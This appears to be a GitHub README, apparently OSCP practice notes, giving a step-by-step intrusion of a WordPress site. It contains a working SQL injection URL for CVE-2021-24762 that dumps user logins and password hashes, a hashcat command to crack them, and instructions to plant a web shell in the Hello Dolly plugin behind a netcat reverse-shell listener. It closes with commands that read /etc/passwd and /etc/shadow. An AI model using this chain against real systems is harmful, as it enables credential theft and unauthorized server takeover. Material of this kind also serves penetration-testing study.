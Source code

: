 
# Uploading a Shell in WordPress via SQLi Entry Point 

This guide walks through the process of exploiting a SQL Injection (SQLi) vulnerability in a WordPress site to upload a shell and gain access to the server.

## Target Information

The target is a WordPress website. After extensive enumeration and testing of various parameters (e.g., ID, p, search), no vulnerabilities were initially found. 

## Discovery of Vulnerability

Using WPScan, I identified a critical CVE:
- **CVE-2021-24762**: [Link to CVE](https://wpscan.com/vulnerability/c1620905-7c31-4e62-80f5-1d9635be11ad)

### Exploit Payload

The payload used for exploiting this vulnerability is:

```
https://example.com/wp-admin/admin-ajax.php?action=get_question&question_id=1%20union%20select%201%2C1%2Cchar(116%2C101%2C120%2C116)%2Cuser_login%2Cuser_pass%2C0%2C0%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%20from%20wp_users
```
![image](https://github.com/MalekAlthubiany/WordPressShell-OSCP/assets/127455300/d741d6f2-efee-4a56-aeaf-2e3d8ca8b7ee)

The `question_id` must start with an existing post ID. Upon executing this payload, user credentials were leaked, including hashed passwords.

## Cracking the Hash

Using Hashcat, the hash was cracked:

```sh
hashcat -m 400 -a 0 'hash'
```

The password was immediately revealed. Using the cracked credentials, I logged into the WordPress admin panel.

## Uploading a Web Shell

1. **Login to WordPress Admin Panel**:
   - Username: `admin`
   - Password: `crackedhash`

2. **Editing a Plugin**:
   - Navigate to the Plugins section.
   - Choose the "Hello Dolly" plugin 
   - Edit the plugin file (e.g., `hello.php`) to include a web shell code.
   - Update the plugin with the modified code.

3. **Starting a Listener**:
   - Start a listener on your machine to catch the reverse shell:
   
   ```sh
   nc -lnvp 1234
   ```

4. **Activating the Shell**:
   - Visit `https://target.com/wp-content/plugins/hello.php` to activate the shell and gain access to the server.

## Post-Exploitation

After gaining shell access, check your privileges and enumerate the system for sensitive files and data. Due to privilege restrictions, enumeration might be limited.

### Simple Commands for Enumeration

Use simple commands to explore and gather information from the server:

```sh
whoami
uname -a
cat /etc/passwd
cat /etc/shadow
```

### Finding .txt Files

Use the following command to find all `.txt` files in the `/var/www` directory:

```sh
find /var/www -type f -name "*.txt"
```
![image](https://github.com/MalekAlthubiany/WordPressShell-OSCP/assets/127455300/4a7875cd-071b-4ce0-a6c3-097c0fd20e09)

The results from this command include:

```
/var/www/wordpress/wp-includes/js/swfupload/license.txt
/var/www/wordpress/wp-includes/js/plupload/license.txt
/var/www/wordpress/wp-includes/images/crystal/license.txt
/var/www/wordpress/wp-includes/ID3/readme.txt
/var/www/wordpress/wp-includes/ID3/license.txt
/var/www/wordpress/wp-includes/ID3/license.commercial.txt
/var/www/wordpress/license.txt
/var/www/wordpress/wp-content/themes/oceanwp/readme.txt
/var/www/wordpress/wp-content/themes/oceanwp/inc/customizer/assets/js/customize-search.js.LICENSE.txt
/var/www/wordpress/wp-content/themes/twentytwentytwo/readme.txt
/var/www/wordpress/wp-content/themes/twentytwentytwo/assets/fonts/dm-sans/LICENSE.txt
/var/www/wordpress/wp-content/themes/twentytwentytwo/assets/fonts/ibm-plex/LICENSE.txt
/var/www/wordpress/wp-content/themes/twentytwentytwo/assets/fonts/inter/LICENSE.txt
/var/www/wordpress/wp-content/plugins/wpforms-lite/readme.txt
/var/www/wordpress/wp-content/plugins/wpforms-lite/changelog.txt
/var/www/wordpress/wp-content/plugins/wpforms-lite/vendor/woocommerce/action-scheduler/license.txt
/var/www/wordpress/wp-content/plugins/ocean-stick-anything/readme.txt
/var/www/wordpress/wp-content/plugins/akismet/readme.txt
/var/www/wordpress/wp-content/plugins/akismet/changelog.txt
/var/www/wordpress/wp-content/plugins/akismet/LICENSE.txt
/var/www/wordpress/wp-content/plugins/ocean-social-sharing/readme.txt
/var/www/wordpress/wp-content/plugins/elementor/readme.txt
/var/www/wordpress/wp-content/plugins/elementor/license.txt
/var/www/wordpress/wp-content/plugins/elementor/assets/js/app.min.js.LICENSE.txt
/var/www/wordpress/wp-content/plugins/ocean-extra/readme.txt
/var/www/wordpress/wp-content/plugins/ocean-extra/includes/freemius/includes/sdk/LICENSE.txt
/var/www/wordpress/wp-content/plugins/ocean-extra/includes/freemius/LICENSE.txt
/var/www/wordpress/wp-content/plugins/ocean-extra/changelog.txt
/var/www/wordpress/wp-content/plugins/perfect-survey/readme.txt
```

## Conclusion

This process demonstrates how to leverage a known vulnerability in a WordPress site to gain unauthorized access and upload a shell. Always ensure you have permission to test and exploit vulnerabilities on any target system.

